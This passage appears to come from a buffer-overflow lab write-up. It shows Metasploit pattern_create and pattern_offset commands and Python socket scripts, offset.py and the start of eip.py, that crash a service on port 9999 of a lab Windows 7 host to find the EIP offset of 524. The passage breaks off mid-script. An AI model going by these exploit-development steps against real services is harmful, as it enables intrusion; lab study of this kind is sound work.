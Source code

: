 Using Noodles offset short cut method, I quickly find the buffer offset for my payload:

Create an offset pattern for my script:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 6700
```

Use this as payload in my `offset.py` script:

```python title="offset.py"
#!/usr/bin/env python3

import socket

ip = "172.16.2.125"
port = 9999

offset = 0 
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A......"
postfix = ""

buffer = overflow + retn + padding + payload + postfix

print("buffer=",len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(payload + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Fire this payload at my Win7 box, `./offset.py`.

When Immunity Debugger crashes, read the value from `EIP` register e.g. `35724134`

Use metasploit `pattern_offset` to find this pattern in the string from before:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 6700 -q 35724134
 [*] Exact match at offset 524
```

The offset is `524`.

To verify this, use the following `eip.py` script to get 4 x B's (i.e. `0x42424242`) written to the EIP:

```python title="eip.py"
#!/usr/bin/env python3

import socket

ip = "172.16.2.125"
port = 9999

offset = 524
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""
```
